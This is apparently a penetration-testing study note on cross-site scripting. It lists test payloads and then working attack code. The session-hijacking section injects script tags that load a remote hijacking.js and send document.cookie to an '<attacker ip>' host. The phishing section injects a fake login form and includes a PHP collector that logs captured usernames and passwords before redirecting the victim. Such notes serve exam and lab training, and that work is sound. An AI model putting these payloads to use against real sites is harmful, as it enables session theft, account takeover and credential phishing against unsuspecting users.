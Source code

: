 Payload

https://www.youtube.com/watch?v=KHwVjzWei1c
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

testing payload

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
// remote script
<script src="http://<attacker ip>"></script>
// note that html in the front
'><script src="http://<attacker ip>"></script>
"><script src="http://<attacker ip>"></script>
```

hijacking.js

```js
// enter a workable payload into the vulnerability input field
"><script src="http://<attacker ip>/hijacking.js"></script>
```

```js
// sudo python3 -m http.server 80


// hijacking.js
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()

// hijacking.js
document.location='http://<attacker ip>/?output='+document.cookie;
// hijacking.js
new Image().src='http://<attacker ip>/?output='+document.cookie;
// and so on
```

using cookie to access (e.g., Firefox DevTools)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/XSS/XSS_Login.png)

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
# sudo php -S 0.0.0.0:80
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```